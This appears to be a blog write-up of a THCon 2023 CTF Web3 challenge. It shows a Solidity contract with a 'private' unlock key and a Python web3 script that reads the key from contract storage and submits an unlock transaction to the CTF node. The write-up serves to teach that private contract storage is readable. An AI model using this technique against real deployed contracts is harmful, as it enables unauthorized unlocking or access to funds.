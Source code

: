 ```yaml
---
layout: post
title: "Nothing to Hide (THCon CTF 2023)"
author: cryptax
tags:
- THCon
- CTF
- 2023
- Web3
- Ethereum
---
```


# Description

![](/images/thcon23-nothingtohide-description.png)

The challenge provides the following contract, and, same as the [Welcome challenge](https://cryptax.github.io/2023/04/22/welcome.html), the goal is to "unlock" to get the flag.


```
pragma solidity ^0.7.1;

contract hidden {

    bool public isLocked;
    
    bytes32 private key;
    
    bool private other;

    uint256 private garbage = 88888888888;

    uint256 public useless;

    uint256 private bob;


    constructor() {
        //hidden
    }

    function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }

}
```


# Solving the challenge

Like in the previous challenge, to unlock, we need a **key**, except this time it is *private*:

```
bytes32 private key;
...
function unlock(bytes32 _something) public {
        require(other);
        if (key == _something) {
            isLocked = false;
        }
    }
```

So, we're going to read the key (exactly the way I had intended to do it initially with Welcome) using [`get_storage_at`](https://web3py.readthedocs.io/en/stable/web3.eth.html#web3.eth.Eth.get_storage_at). The storage probably holds the key at index 1:

```
bool public isLocked; # index 0
bytes32 private key;  # index 1
bool private other;   # index 2
...
```


The first step is to get the ABI of the contract, using solc. That's a step I grasped from [Sylvain Pelissier at Insomni'hack CTF](https://sylvainpelissier.gitlab.io/posts/2023-03-24-insomnihack-ownercheap/):

```
solc nothingtohide.sol --abi > abi.json
```

For the command to work, in my case, I had to fix the solidity pragma to `pragma solidity ^0.8.19;`. Then I copy-pasted the Json array in my Python script.

Then, you deploy the contract on the CTF infrastructure and retrieve the contact's address.

My script is very inspired from Sylvain's:

1. Connect to the RPC URL
2. Get the contract, using its address
3. Read the key from storage
4. Send the transaction

To send the transaction, you need your private key. You can retrieve it from the Metamask wallet you created for the CTF:

![](/images/thcon23-web3-account.png)
![](/images/thcon23-web3-accountdetails.png)

```python
#!/usr/bin/env python3

from web3 import Web3

# solc nothingtohide.sol --abi > abi.json - then copy paste content of abi.json here
abi = [{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[],"name":"isLocked","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"bytes32","name":"_something","type":"bytes32"}],"name":"unlock","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"useless","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]

# connect to the CTF RPC URL
url = 'https://node01-eth.ctf.thcon.party:8545'
web3 = Web3(Web3.HTTPProvider(url))

# I am logged in the CTF interface with this personal address
my_address = web3.to_checksum_address('0xc8fe8405b49b4bf6a7853cc77fde61b95070e12a')

# The contract is deployed at this address
contract_address = web3.to_checksum_address('0xb9eE2C6DBa64e2dc3FE7e78aEE8e34FBb33FcAA3')
contract = web3.eth.contract(address=contract_address, abi=abi)

# Read the key from the contract
key_bytes = web3.eth.get_storage_at(contract_address,1)
print(f"key bytes: {key_bytes} {len(key_bytes)}")
# b' \xfa\xbb\xc0f0e\xde\x90\x9de\xa3\x02D\xd2\xb4\x1eE\x10\xa3`\xe7\xd5\xb0xA\xbb\x90\x8a\xd5z\x9f'

# create transaction
print('Creating transaction...')
transfer_tx = contract.functions.unlock(key_bytes).build_transaction(
    {
        'from': my_address,
        'nonce': web3.eth.get_transaction_count(my_address),
        'gasPrice': web3.eth.gas_price
    })


# signing the transaction with my personal wallet's private key (in Metamask)
print("Signing transaction...")
x_create = web3.eth.account.sign_transaction(transfer_tx, 0x863ce...)
# sending the transaction - for that I need a few tokens at least that I can mine on the CTF interface
print('Send raw...')
tx_hash = web3.eth.send_raw_transaction(x_create.rawTransaction)
print('Receipt')
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(f'Tx successful with hash: { tx_receipt.transactionHash.hex() }')
```

This unlocks the contract, and thus, when you go back to the CTF interface, you get the flag :)

![](/images/thcon23-nothingtohide-solved.png)

# My feedback

Actually, I flagged this challenge more easily / quickly than Welcome, because I had some prior (small) experience with Web3 python scripts.
Nevertheless, I liked it very much: I find the scenario's design excellent, the CTF crypto interface excellent. Thanks!
